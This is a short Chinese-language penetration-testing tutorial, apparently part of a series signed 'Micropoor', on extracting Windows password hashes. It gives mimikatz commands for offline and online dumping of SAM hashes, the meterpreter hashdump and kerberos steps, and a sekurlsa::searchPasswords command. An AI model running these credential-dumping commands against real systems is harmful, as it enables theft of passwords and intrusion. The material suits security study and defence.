 上一季下载sys.hiv,sam.hiv,security.hiv文件后，以Linux下为背景来离线提取hash，本季补充以windows为背景离线提取hash。

mimikatz 2.0 二进制文件下载地址：  
https://github.com/gentilkiwi/mimikatz/releases/latest  
切到当下目录（注意X86,X64位）

mimikatz离线导hash命令：  
```bash
mimikatz.exe "lsadump::sam /system:sys.hiv /sam:sam.hiv" exit
```

![](media/92ae7706ceec3aa04bce07e08ced2e16.jpg)

mimikatz在线导hash命令：

```bash
mimikatz.exe "log Micropoor.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

![](media/88ab6bceca9f6a733b768b1ccfefe688.jpg)

当然关于提取目标机的hash，msf也内置了离线提取与在线提取hash。

meterpreter下hashdump命令来提取hash（注意当前权限）  
![](media/79e0ae6ee3518126f0c11872201c70fb.jpg)  

![](media/5808e7c6ac005d96f8289f994db6e45e.jpg)

msf同时也内置了mimikatz，meterpreter执行load mimikatz即可加载该插件。**（这里一定要注意，msf默认调用于payload位数相同的mimikatz）**  

![](media/3535a826c17c149f290fd79bd2fe865a.jpg)

直接执行kerberos即可。  

![](media/0134f11ff22c5d4450f173c8e5ce9717.jpg)

当然有些情况下，payload位数无误，权限无误，依然无法提取目标机的密码相关。需要调用mimikatz自定义命令：
```bash
mimikatz_command -f sekurlsa::searchPasswords
```
![](media/ae5d3f87f6df54f4a42bfa231e5847c0.jpg)

>   Micropoor

